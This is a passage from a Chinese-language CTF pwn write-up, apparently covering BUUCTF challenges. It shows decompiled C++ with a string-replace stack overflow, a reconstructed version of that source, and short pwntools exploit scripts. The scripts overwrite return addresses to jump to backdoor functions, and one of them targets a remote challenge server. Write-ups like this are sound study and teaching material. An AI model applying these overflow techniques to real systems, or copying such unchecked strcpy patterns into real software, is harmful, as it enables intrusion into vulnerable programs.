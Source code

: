 ```cpp
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```
这里重点关注"="和replace函数，这也是程序在栈内存中操作的重点。在调试过程中，那些``std::allocator<char>::allocator``的语句对栈区没有明显的影响，略过。经过手动反编译，还原出的源代码大致如下：
```cpp
#include <iostream>
#include <stdio.h>
#include <string.h>
using namespace std;
string input;

int vuln(){
	char info[32];
	printf("Tell me something about yourself: ");
	fgets(info, 32, stdin);
	input = info;
	string you = "you";
	string I = "I";
	rep = replace(input, you, I);	// replace "I" with "you"
	strcpy(info, rep.c_str());
}

int main(){
	vuln();
	return 0;
}
```
这个函数的功能是将info中所有的"I"换成"you"，replace函数甚至都无需分析。由此很容易看出这里有潜在的溢出问题。而且程序本身也给了后门，因此直接修改返回地址即可。
exp：
```python
from pwn import *
io = process('./pwn')
payload = b'I' * 20 + p32(0xdeadbeef) + p32(0x8048f0d)
io.sendline(payload)
io.interactive()
```
# buu006-jarvisoj_level0
```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26344)
io.sendlineafter('Hello, World', cyclic(128+8) + p64(0x400596))
io.interactive()
```
# buu007-ciscn_2019_c_1
常规的获取got表地址，LibcSearcher有的时候可以有的时候不行，题目能给libc是最好的。